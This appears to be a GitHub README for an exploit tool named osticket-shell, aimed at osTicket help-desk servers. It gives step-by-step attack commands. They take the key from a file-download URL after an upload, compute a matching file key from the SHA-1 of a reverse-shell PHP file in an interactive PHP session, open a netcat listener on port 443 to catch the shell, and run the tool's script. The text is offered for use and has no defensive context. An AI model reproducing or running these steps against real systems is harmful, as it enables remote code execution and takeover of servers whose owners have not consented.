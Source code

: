 # osticket-shell

* After uploading file
	* `http://target/file.php?key=t4hjgruq3xmgvta0gr8vm9nf5hjyykfui&expires=111111400&signature=f03c2714xxd8f914xxh6de56bd96xx147646683&id=17`

* copy key
	* `t4hjgruq3xmgvta0gr8vm9nf5hjyykfui`

* File key
	* `secrule@ubuntu:~$ php -a `                                  
	* `php > $sha1 = base64_encode(sha1_file('/opt/reverse-shell.php', true));` < path shell | Attacker machine
	* `php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));`                                                               
	* `output: rUQ3xMGvtA0sn8vM9nf5OQdkFuI`

* listen netcat
	* `nc -lvp 443`

# Usage
`./osticket_shell.sh`

